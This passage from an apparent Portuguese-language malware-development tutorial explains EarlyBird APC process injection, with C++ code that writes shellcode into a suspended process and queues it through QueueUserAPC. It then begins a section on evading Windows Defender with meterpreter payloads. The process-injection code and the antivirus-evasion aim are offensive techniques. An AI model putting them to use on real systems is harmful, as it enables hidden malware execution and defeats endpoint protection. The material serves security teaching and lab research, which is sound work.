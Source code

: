 A seguir, utilizaremos a função [WriteProcessMemory](https://docs.microsoft.com/en-us/windows/win32/api/memoryapi/nf-memoryapi-writeprocessmemory) para escrevermos o nosso shellcode na localização previamente alocada pelo `VirtualAllocEx`. Criaremos uma variável do tipo SIZE_T para guardarmos a quantidade de bytes escrita pela função - sem um ponteiro para ela, a função não irá funcionar.

```cpp
    std::cout << "[+] Trying to write shellcode at allocated memory..." << std::endl;
    SIZE_T numberOfBytesWritten = 0;
    status = WriteProcessMemory(procInfo.hProcess, shellcodeRemoteLocation, shellcode, sizeof(shellcode), &numberOfBytesWritten);
    if (!status) {
        std::cerr << "Error on WriteProcessMemory: " << GetLastError() << std::endl;
        return 1;
    }
    std::cout << "   \\_ [+] Shellcode wrote successfully" << std::endl;
```

Iremos novamente fazer o uso da [QueueUserAPC](https://docs.microsoft.com/en-us/windows/win32/api/processthreadsapi/nf-processthreadsapi-queueuserapc) para enfileirarmos o nosso shellcode remoto na thread principal do processo ainda em suspensão.

Para isso, iremos fazer um casting da região que alocamos no processo vítima para um ponteiro de uma função APC (`PAPCFUNC`), a thread principal do programa (obtida por `procInfo.hThread`) e NULL como último parâmetro para indicarmos que o shellcode não necessita de argumentos.

```cpp
    std::cout << "[+] Attempting to call shellcode via QueueUserAPC..." << std::endl;
    QueueUserAPC((PAPCFUNC)shellcodeRemoteLocation, procInfo.hThread, NULL);
```

Em resumo, teremos uma região de memória RWX alocada em um outro processo, que está armazenando um shellcode que foi enfileirado como uma APC da thread principal. Agora o que nos resta é resumir a thread principal, com `ResumeThread`.

```cpp
    ResumeThread(procInfo.hThread);
    std::cout << "   \\_ [+] Success" << std::endl;

    std::cout << "[+] EarlyBird injection successful :)" << std::endl;
}
```

O resultado está expresso na imagem abaixo.

![b490da5b43f58e192d19df97a8f6bded.png](../img/maldev-0x00/b490da5b43f58e192d19df97a8f6bded.png)


Agora que já entendemos o funcionamento das variações, vamos explicar um caso de uso, testado em laboratório, para bypass do Windows Defender.

## Evadindo Windows Defender com injeções APC

Nesta seção, iremos tentar realizar o bypass dos módulos de Real Time Protection e Cloud Delivery Protection do Windows Defender. Para isso, testaremos a eficiência dos códigos de APC Injection, EarlyBird e Shellcode Runner (apenas um *wrapper* para rodar shellcode em um EXE), quando utilizados para injetar/carregar um payload do meterpreter, com níveis iguais de ofuscação e evasão de defesas. Os níveis são os seguintes:
